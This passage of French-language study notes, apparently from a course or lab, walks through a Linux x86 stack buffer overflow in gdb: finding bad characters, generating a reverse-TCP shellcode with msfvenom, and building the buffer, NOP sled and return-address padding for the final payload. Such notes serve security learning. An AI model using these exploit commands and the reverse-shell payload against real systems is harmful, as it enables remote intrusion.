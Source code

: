```
x/2000xb $esp+500
```

8. trouver l'adresse a laquelle se termine nos x55 et ou commence x00, x01, x02...
9. Identifier les caractères manquants ou modifiés un par un.
10. Soustraire le nombre de mauvais caractères pour recalculer le buffer
11. Renvoyer le CHARS sans les mauvais caractères

```shell-session
(gdb) run $(python -c 'print "\x55" * (<nb_caractères> - X) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```


REPETER LE PROCESS JUSQU'A + AUCUN MAUVAIS CARACTERE.


# 4. Générer le Shell code

Régénérer un Shell code en prenant bien en compte:

- `Architecture`
- `Platform`
- `Bad Characters`

1. Générer le shell code
```shell-session
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "\x00\x09..." --out shellcode
```

```shell-session
cat shellcode
```

2. Reformatter en une seule ligne

3. Recalculer le buffer avec le payload size cette fois ci.

```shell-session
Buffer = "\x55" * (<nb_caracteres> - 100 - <payload_size>) = ?
     NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

4. Envoyer le payload final

```shell-session
run $(python -c 'print "\x55" * (<nb_caracteres> - 100 - <payload_size>) + "\x90" * 100 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

5. Vérifier que le premier octet du shell code est intègre après les NOPs dans la stack

```shell-session
x/2000xb $esp+550
```
